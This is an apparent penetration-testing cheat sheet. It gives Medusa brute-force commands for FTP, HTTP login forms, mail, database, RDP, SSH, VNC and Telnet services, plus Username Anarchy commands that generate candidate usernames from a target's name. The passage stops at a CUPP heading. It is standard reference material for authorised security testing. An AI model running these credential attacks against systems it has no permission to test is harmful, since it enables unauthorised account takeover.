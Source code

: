 #### Medusa Module

## Medusa Modules

| Module          | Service/Protocol         | Description                                      | Usage Example                          |
|-----------------|--------------------------|--------------------------------------------------|----------------------------------------|
| FTP             | File Transfer Protocol   | Brute-forcing FTP login credentials for file transfers over a network | `medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt` |
| HTTP POST       | Hypertext Transfer Protocol | Brute-forcing login forms on web applications over HTTP (POST) | `medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:"username=^USER^&password=^PASS^:F=Invalid"` |
| HTTP GET        | Hypertext Transfer Protocol | Brute-forcing login forms on web applications over HTTP (GET) | `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET ` |
| IMAP            | Internet Message Access Protocol | Brute-forcing IMAP logins for email access | `medusa -M imap -h mail.example.com -U users.txt -P passwords.txt` |
| MySQL           | MySQL Database           | Brute-forcing MySQL database credentials for web apps and databases | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt` |
| POP3            | Post Office Protocol 3   | Brute-forcing POP3 logins for email retrieval from mail servers | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt` |
| RDP             | Remote Desktop Protocol  | Brute-forcing RDP logins for remote desktop access to Windows systems | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt` |
| SSHv2           | Secure Shell (SSH)       | Brute-forcing SSH logins for secure remote access | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt` |
| Subversion (SVN)| Version Control System   | Brute-forcing Subversion repositories for version control | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt` |
| Telnet          | Telnet Protocol          | Brute-forcing Telnet services for remote command execution on older systems | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt` |
| VNC             | Virtual Network Computing| Brute-forcing VNC login credentials for remote desktop access | `medusa -M vnc -h 192.168.1.100 -P passwords.txt` |
| Web Form        | Brute-forcing Web Login Forms | Brute-forcing login forms on websites using HTTP POST requests | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"` |

**Tip:** `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name` checks for empty passwords (-e n) and passwords matching the username (-e s).

## Custom Wordlists

### Username Anarchy

Generates potential usernames based on a target's name.
| Command | Description |
|---------|-------------|
| `username-anarchy Jane Smith > jane_smith_usernames.txt` | Generate possible usernames for "Jane Smith" |
| `username-anarchy -i names.txt` | Use a file (names.txt) with names for input. Can handle space, CSV, or TAB delimited names. |
| `username-anarchy -a --country us` | Automatically generate usernames using common names from the US dataset. |
| `username-anarchy -l` | List available username format plugins. |
| `username-anarchy -f format1,format2` | Use specific format plugins for username generation (comma-separated). |
| `username-anarchy -@ example.com` | Append @example.com as a suffix to each username. |
| `username-anarchy --case-insensitive` | Generate usernames in case-insensitive (lowercase) format. |

### CUPP (Common User Passwords Profiler)

